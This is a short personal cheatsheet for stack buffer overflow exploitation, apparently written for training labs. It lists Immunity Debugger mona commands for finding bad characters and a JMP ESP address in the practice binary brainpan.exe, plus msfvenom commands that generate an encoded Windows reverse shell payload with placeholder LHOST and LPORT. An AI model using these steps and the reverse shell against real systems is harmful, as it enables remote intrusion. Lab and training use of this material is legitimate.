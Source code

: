 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### After getting control of EIP

Set a **working folder** <br>
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray <br>
`!mona bytearray`

Generate bytearray excluding a certain badchar <br>
`!mona bytearray -cpb "\x00"` <br>
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically <br>
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread` <br>
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread` <br>


List all available programs <br>
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp) <br>
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode <br>
`NOPS= "x90"*16`